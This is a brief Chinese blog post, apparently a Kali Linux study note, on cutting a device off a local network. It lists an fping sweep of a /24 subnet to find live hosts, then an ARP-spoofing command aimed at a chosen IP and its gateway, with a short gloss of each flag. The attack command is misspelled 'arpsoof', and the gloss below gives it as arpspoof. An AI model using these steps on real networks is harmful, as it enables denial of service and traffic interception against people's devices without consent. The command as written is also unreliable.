 | layout | title    | date      | description    | tag  |
| ------ | -------- | --------- | -------------- | ---- |
| post   | Kali学习 | 2021-11-1 | 局域网断网攻击 | kali |



# 局域网断网攻击

>欺骗

1. 查看联网设备数

   ```
   fping -asg 192.168.1.1/24
   ```

2. 攻击

   ```
   arpsoof -i eth0 -t 192.168.1.181 192.168.1.1
   ```

   arpspoof命令
   后面接上与网络有关的-i（interface）
   网卡eth0
   目标-t（target）
   目标IP：192.168.1.181
   目标主机网关192.168.1.1